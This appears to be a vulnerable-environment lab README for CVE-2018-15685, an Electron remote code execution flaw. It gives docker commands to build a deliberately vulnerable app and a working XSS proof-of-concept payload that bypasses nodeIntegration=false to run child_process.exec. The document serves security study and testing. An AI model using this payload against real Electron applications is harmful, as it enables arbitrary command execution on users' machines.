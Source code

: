 # Electron WebPreferences Remote Code Execution Vulnerability（CVE-2018-15685）

[中文版本(Chinese version)](README.zh-cn.md)

Electron is an open source library developed by GitHub for building cross-platform desktop applications with HTML, CSS, and JavaScript. Electron accomplishes this by combining Chromium and Node.js into a single runtime and apps can be packaged for Mac, Windows, and Linux.

When Electron sets `nodeIntegration=false` (default), the JavaScript in the page cannot access the built-in library of node.js. CVE-2018-15685 bypass this limitation, enabling arbitrary commands to be executed if the user can execute JavaScript (such as when accessing a third-party page or an XSS vulnerability exists in the app).

Reference links:

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## Compile application

Execute the following command to compile an  vulnerability application:

```
docker compose run -e PLATFORM=win64 --rm electron
```

The value of `PLATFORM` is the operating system on which the application is running. The options are:`win64`、`win32`、`mac`、`linux`。

After the compilation completed, execute the following command to run the web service:

```
docker compose run --rm -p 8080:80 web
```

Now，access`http://your-ip:8080/cve-2018-15685.tar.gz`to download application.

## exploit

Open the app:

![](1.png)

Click submit, the content in the input box will be displayed in the app, and there is obviously an XSS vulnerability.

We submit `<img src=1 onerror="require('child_process').exec('calc.exe')">` and find that nothing happens, because `nodeIntegration=false`.

At this time, submit the POC (Windows):

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">
```

As you see, calc.exe shows up.

![](2.png)
